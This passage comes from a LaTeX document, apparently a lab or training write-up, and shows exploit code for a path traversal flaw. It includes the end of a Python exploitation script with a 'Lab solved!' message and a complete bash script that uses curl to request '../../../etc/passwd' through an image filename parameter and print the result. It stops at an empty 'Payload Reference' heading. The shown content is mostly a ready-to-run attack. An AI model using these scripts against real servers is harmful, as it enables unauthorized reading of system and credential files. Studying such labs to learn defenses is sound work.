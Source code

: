 \documentclass[11pt,letterpaper]{article}
\begin{document}
\begin{verbatim}[language=python,caption={Full-featured path traversal exploitation script}]
    except requests.RequestException as e:
        print(f"[-] Request error: {e}")
        return False

def main():
    """Main entry point."""
    banner()

    # Validate command line arguments
    if len(sys.argv) != 2:
        print(f"Usage: {sys.argv[0]} <URL>")
        print(f"Example: {sys.argv[0]} https://www.example.com")
        sys.exit(2)

    # Get URL from command line
    url = sys.argv[1].rstrip('/')

    # Run exploit
    success = directory_traversal_exploit(url)

    if success:
        print()
        print("[+] Lab solved!")
        sys.exit(0)
    else:
        print()
        print("[-] Exploitation failed")
        sys.exit(1)

if __name__ == "__main__":
    main()
\end{verbatim}

\subsection{Bash/Curl One-Liner}

\begin{verbatim}[language=bash,caption={Command-line exploitation with curl}]
#!/bin/bash
# Path Traversal Exploit - Simple Case
# Usage: ./exploit.sh https://target.example.com

BASE_URL="$1"

if [ -z "$BASE_URL" ]; then
    echo "Usage: $0 <BASE_URL>"
    exit 1
fi

echo "[*] Exploiting path traversal..."

# Send exploit request
RESPONSE=$(curl -s -k "${BASE_URL}/image?filename=../../../etc/passwd")

# Check for success
if echo "$RESPONSE" | grep -q "root:"; then
    echo "[+] Exploit successful!"
    echo "$RESPONSE"
else
    echo "[-] Exploit failed"
    exit 1
fi
\end{verbatim}

\section{Payload Reference}

\subsection{Linux Target Files}
\end{document}
